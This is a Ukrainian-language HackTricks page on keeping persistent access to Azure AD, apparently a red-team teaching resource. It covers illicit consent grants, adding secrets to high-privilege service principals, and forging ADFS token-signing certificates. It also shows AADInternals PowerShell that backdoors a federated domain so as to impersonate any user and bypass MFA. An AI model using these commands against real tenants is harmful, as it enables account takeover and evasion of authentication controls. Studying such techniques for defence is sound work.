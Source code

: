 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

За замовчуванням будь-який користувач може зареєструвати додаток в Azure AD. Тому ви можете зареєструвати додаток (тільки для цільового орендаря), який потребує дозволів з високим впливом з адміністративним погодженням (схвалити його, якщо ви адміністратор) - наприклад, надсилання електронної пошти від імені користувача, управління ролями тощо. Це дозволить нам **виконувати фішингові атаки**, які будуть дуже **прибутковими** у разі успіху.

Більше того, ви також можете прийняти цей додаток зі своїм користувачем як спосіб підтримувати доступ до нього.

### Applications and Service Principals

З привілеями адміністратора додатків, GA або користувацькою роллю з дозволами microsoft.directory/applications/credentials/update, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатку.

Можливо **націлити додаток з високими дозволами** або **додати новий додаток** з високими дозволами.

Цікавою роллю, яку можна додати до додатку, була б **роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **скидати пароль** глобальних адміністраторів.

Ця техніка також дозволяє **обійти MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токена

З **привілеями DA** на локальному AD можливо створити та імпортувати **нові сертифікати підпису токена** та **сертифікати розшифровки токена**, які мають дуже тривалий термін дії. Це дозволить нам **увійти як будь-який користувач**, чий ImuutableID ми знаємо.

**Виконайте** нижче наведений команду як **DA на сервері ADFS** для створення нових сертифікатів (за замовчуванням пароль 'AADInternals'), додайте їх до ADFS, вимкніть автоматичне оновлення та перезапустіть службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Тоді оновіть інформацію про сертифікат з Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

З привілеями GA в орендаря можливо **додати новий домен** (повинен бути перевірений), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до конкретного сертифіката** (any.sts у наведеній нижче команді) та видавця:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

